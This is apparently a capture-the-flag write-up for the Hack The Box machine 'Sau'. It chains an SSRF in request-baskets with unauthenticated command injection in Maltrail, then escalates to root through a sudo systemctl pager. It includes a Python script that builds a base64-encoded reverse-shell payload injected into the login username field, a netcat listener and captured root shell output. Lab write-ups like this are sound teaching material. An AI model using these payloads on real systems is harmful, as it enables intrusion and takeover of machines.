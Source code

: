 # Sau

## Enumeration(nmap):
Initial: `nmap -vv -sS -oN nmap/init -A 10.129.30.180`
Found open 
	- 22 ssh
	- 80 http
	- 55555 unknown

---

HTTP Service on port 80 is unreachable so i tried to access
the service running on 55555 to see if it's a website and success.
The services hosted is an http request inspector
![/web of 55555](screenshots/home-page-req-bask.png)

## Research
Before trying anything else i saw at that the footer contains 
the software and the version used `Powered by request-baskets | Version: 1.2.1`
so i just searched to see if any public CVE's exist. I went 
to the github repo of [request baskets](https://github.com/darklynx/request-baskets)
and straight up to the issues and sure enough a [CVE](https://github.com/entr0pie/CVE-2023-27163/tree/main) was present

![issues](screenshots/git-issues-req-bask.png)
So an SSRF vulnerability (CVE-2023-27163) is present and since i saw open port 80
but cannot access it, i asume it blocks external ips
or just has a whitelist so i attempt to take a sneek
peek 

## Exploitation
![first use of cve](screenshots/ssrf-for-home-of-80.png)
![home page of 80](screenshots/local-home-page-80.png)

The service running on port 80 is Powered by Maltrail (v0.53) 
which after searching has [Unauthenticated OS Command Injection Maltrail <= v0.54 (Did not recieve a CVE)](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)
After locating a [POC](https://github.com/spookier/Maltrail-v0.53-Exploit) written in python,
i only took the curl_cmd function cause in order to get rce i have 
to chain the two vulnerabilities i found, i only want the data 
porivided by the function to use as url parameters,
in a sense this is trial and error cause i don't actualy 
know if the service accepts the data as url parameters
so this was done blindly but let's attempt it

```py
import base64

def main():
	my_ip = "10.10.14.87"
	my_port = 4444
	target_url = "http://127.0.0.1/login"
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()
	parameters = f"username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`"
	print(parameters)

if __name__ == "__main__":
	main()
```

## RCE:
![payload generation](screenshots/payload-gen.png)

After i generated the payload i went to [CyberChef](https://gchq.github.io/CyberChef/) and URL-Encoded it
![payload html encoding](screenshots/cyberchef.png)

Before executing the exploit i start a netcat listener on port 4444
```sh
nc -l 4444
```
And.....
![rce](screenshots/rce.png)


Now i'm able to execute command on the remote machine 
within the terminal so i go and retrieve the flag.
```sh
➜  Sau nc -l 4444
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$
$ ls -la /home/puma
ls -la /home/puma
total 32
drwxr-xr-x 4 puma puma 4096 Jun 19  2023 .
drwxr-xr-x 3 root root 4096 Apr 15  2023 ..
lrwxrwxrwx 1 root root    9 Apr 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15  2023 .cache
drwx------ 3 puma puma 4096 Apr 15  2023 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Dec 30 18:11 user.txt
$ cat /home/puma/user.txt
cat /home/puma/user.txt
HTB{Us3R_FL4G_R3dUct3d}
$
```

In order to enumerate and attempt to escalate my privileges
i first want to have a full tty shell

## Full TTY:
[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

![sudo list](screenshots/sudo.png)
```sh
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$
```

Okay so i didn't have to do much digging the hard part is over
now when executing this command you will be prompted to an environment 
like vim/less so the only thing i have to do is `!` execute `sh` and since
i run the command with sudo the resulting shell will have root user privileges.

![getting-root](screenshots/priv-esc.png) 
```sh
# cd /root
cd /root
# ls
ls
go  root.txt
# cat root.txt
cat root.txt
HTB{R00t_FL4G_R3dUct3d}
#
```


# Resources:
https://github.com/darklynx/request-baskets/issues/91
https://github.com/entr0pie/CVE-2023-27163/tree/main
https://github.com/spookier/Maltrail-v0.53-Exploit
https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
